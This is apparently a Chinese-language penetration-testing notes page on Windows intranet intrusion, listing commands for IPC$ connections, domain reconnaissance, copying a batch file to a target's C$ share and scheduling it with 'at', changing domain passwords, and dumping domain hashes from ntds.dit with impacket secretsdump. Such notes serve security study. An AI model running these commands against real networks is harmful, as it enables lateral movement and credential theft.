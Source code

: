 ## 46. 内网渗透
#内网渗透

### 46.1 IPC

```shell
net use \\192.186.199.101\ipc$ password /user:Administrator #连接ipc
```


#### 46.1.1 文件共享

-   ipc\$需要两个端口：139验证、445共享文件
-   利用ipc\$需要验证之后才能硬盘映射（445文件共享）
-   文件共享：net  share查看文件共享，一般ipc\$/c\$/d\$/e\$/admin\$系统默认打开
-   删除共享：net share 共享名 /del
-   添加共享：net share c\$=c:/

#### 46.1.2 命令执行

-   添加任务计划
-   at \\\\127.0.0.1 11:15am cmd /c “whoami”​

#### 46.1.3 抓本地密码

![[image-20210725233510191.png]]

### 46.2 域环境

-   一个域中至少包含一个域控制器（DC）

```shell
net view /domain:name #查看名为name的域中包含的计算机
net view \\name #查看名为name的主机的共享目录
ipconfig /all #查询本机 IP 段，所在域等
net user #本机用户列表
net localgroup administrators #查看本机管理员域管
net session # 查看当前会话
net use \\ip\ipc$ password /user:username # 建立域内 IPC 会话
net share #查看 SMB 指向的路径
net view #查询同一域内机器列表
net view /domain #查询域列表
net start # 查看当前运行的服务
whoami #查询账号所属权限
whoami/all #查看 sid 值
net accounts # 查看本地密码策略
net accounts /domain # 查看域密码策略
netstat –an #网络连接查询
route print #路由打印
nltest /dsgetdc:域名 #查询域控主机名。 如 nltest /dclist:same
nltest /domain_trusts #可以列出域之间的信任关系
net view /domain:same #查看 same 域中计算机列表
net time /domain #判断主域，主域服务器都做时间服务器
net config workstation # 当前登录域
net group "enterprise admins" /domain 企业管理组
net user /domain lcx@same.com mima #修改域用户密码，需要域管理员权限
net user /domain # 查询域用户
net group /domain # 查询域里面的工作组
net group "domain admins" /domain # 查询域管理员用户组
net localgroup administrators /domain #登录本机的域管理员
net group "domain controllers" /domain # 查看域控制器(如果有多台)
net use \\192.168.25.203 Passw0rd! /user:admin #建立 ipc 连接
copy lcx.bat \\192.168.25.203\c$\adduser #复制 lcx.bat 到目标 C 盘 adduser 目录，bat干啥都行
net time \\192.168.25.203 #查看目标当前时间，得到当前时间
at \\192.168.25.203 12:00 c:\adduser\lcx.bat #告诉目标在12点的时候运行bat
at \\192.168.25.203 #查看目标的计划任务列表
tasklist /V #查看进程，显示对应用户
tasklist /S ip /U domain\username /P /V #查看远程计算机进程列表
qprocess * #类似tasklist
qprocess /SERVER:IP #远程查看计算机进程列表
nslookup –qt-MX Yahoo.com #查看邮件服务器
set #查看系统环境变量
systeminfo #查看系统信息
qwinsta #查看登录情况
qwinsta /SERVER:IP #查看远程登录情况
fsutil fsinfo drives # 查看所有盘符
gpupdate /force #更新域策略
域控中命令：
dsquery computer domainroot -limit 65535 && net group "domain computers" /domain #列出该域内所有机器名
dsquery user domainroot -limit 65535 && net user /domain #列出该域内所有用户名
dsquery subnet #列出该域内网段划分
dsquery group && net group /domain #列出该域内分组
dsquery ou #列出该域内组织单位
dsquery server && net time /domain #列出该域内域控制器
```



### 46.3 域提权

mimikatz.exe

### 46.4 导出域hash

![[image-20210726001600412.png]]

```shell
impacket -secretsdump -system ./SYSTEM -ntds ./ntds.dit LOCAL
```